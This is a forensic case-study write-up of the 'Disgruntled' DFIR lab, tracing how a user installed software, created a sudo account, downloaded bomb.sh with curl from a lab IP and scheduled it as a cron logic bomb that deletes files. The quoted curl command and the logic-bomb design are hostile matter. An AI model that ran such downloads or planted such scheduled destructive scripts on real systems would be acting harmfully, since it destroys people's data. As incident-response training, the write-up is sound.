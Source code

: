 # 📝 Case Study: Disgruntled (DFIR)

## 🔹 Overview
This investigation examines activity from a compromised workstation used by a disgruntled employee.  
The goal was to determine what the user did on the host, identify malicious artifacts (a logic bomb), and confirm exfiltration or destructive actions.

**Skills demonstrated:**
- Linux log analysis (`/var/log/auth.log`)
- Command history and file-system forensics
- Jumplist / editor history interpretation
- Crontab analysis for scheduled malicious actions
- Reconstructing attacker intent and timeline

---

## 🔍 Key Activities & Highlights

### 1. Review sudo / install activity
- Searched the authentication log for install actions:
cd /var/log
cat auth.log | grep install  
## Findings
- **Full command executed with sudo:**  
  `/usr/bin/apt install dokuwiki`
- **Present Working Directory when command ran:**  
  `/home/cybert`

<img src="screenshots/disgruntled-auth-install.png" alt="auth.log install evidence" width="600">

---

### 2. User creation and sudo grant
- Searched `auth.log` for user creation and sudo updates:
```bash
cat auth.log | grep adduser
cat auth.log | grep sudo
## Findings
- User created: it-admin
- sudoers file updated at: Dec 28 06:27:34

<img src="screenshots/disgruntled-auth-adduser.png" alt="adduser evidence" width="600"> <img src="screenshots/disgruntled-auth-sudo.png" alt="sudoers update evidence" width="600">

---

### 3. Script activity and editor history
- Inspected auth.log and editor artifacts to find edited script:
cat auth.log
## Findings:
- Script opened with vi: bomb.sh

<img src="screenshots/disgruntled-vi-open.png" alt="vi opened bomb.sh" width="600">

---

### 4. Download and creation of the malicious script
Reviewed .bash_history of the user (it-admin) and other artifacts.
## Findings:
- Command used to fetch the script:
- curl 10.10.158.38:8080/bomb.sh --output bomb.sh
- Script renamed/moved to: /bin/os-update.sh
- Last modified time: Dec 28 06:29

<img src="screenshots/disgruntled-bomb-curl.png" alt="curl download command evidence" width="600"> <img src="screenshots/disgruntled-os-update.png" alt="os-update.sh file evidence" width="600">

---

### 5. Script contents and payload
- Opened the malicious script to inspect behavior:
nano /bin/os-update.sh

## Findings:
- Script creates a file: goodbye.txt
- Contains logic to delete files of the installed service if last login > 30 days → logic bomb.

<img src="screenshots/disgruntled-os-update-contents.png" alt="script contents" width="600">

---

### 6. Scheduling — crontab analysis
- Checked scheduled tasks to find when the logic bomb would execute:
crontab -l
## Findings:
- Malicious task scheduled to run at: 08:00 AM

<img src="screenshots/disgruntled-crontab.png" alt="crontab evidence" width="600">

### Conclusion

- Attacker installed dokuwiki using sudo from /home/cybert.
- Created new user it-admin, later granted sudo privileges.
- Downloaded bomb.sh, renamed it to /bin/os-update.sh, and modified it on Dec 28 06:29.
- Script payload creates goodbye.txt and performs destructive actions.
- Cron job scheduled execution of the malicious script at 08:00 AM → timed destructive logic bomb.

### Recommendations / Lessons Learned

- Enforce least privilege and review sudo grants promptly.
- Monitor auth.log for user creation and privilege escalation.
- Deploy File Integrity Monitoring (FIM) to detect suspicious files under /bin.
- Restrict or monitor curl/wget usage on sensitive hosts.
- Implement scheduled task monitoring (cron/systemd).
- Audit user shell histories and editor artifacts regularly.

---

## 🔗 Navigation
- Back to [DFIR Home](../DFIR/README.md)

